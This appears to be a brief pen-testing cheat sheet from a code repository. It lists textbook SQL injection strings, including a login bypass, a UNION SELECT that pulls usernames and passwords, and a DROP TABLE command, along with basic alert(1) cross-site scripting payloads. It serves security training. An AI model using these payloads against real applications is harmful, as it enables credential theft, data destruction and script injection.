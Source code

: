 #  Common Penetration Testing Payloads
These are some common tests that I have found to be useful in my every day pen testing training.

---

##  Injection Attacks

###  SQL Injection (SQLi)
```sql
OR 1=1--
admin'--
' UNION SELECT NULL, username, password FROM users--
admin' OR '1'='1
'; DROP TABLE users;--
```


##  Cross-Site Scripting (XSS)

###  Basic Payloads
```html
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg/onload=alert(1)>
<iframe src="javascript:alert('XSS')">
```


---
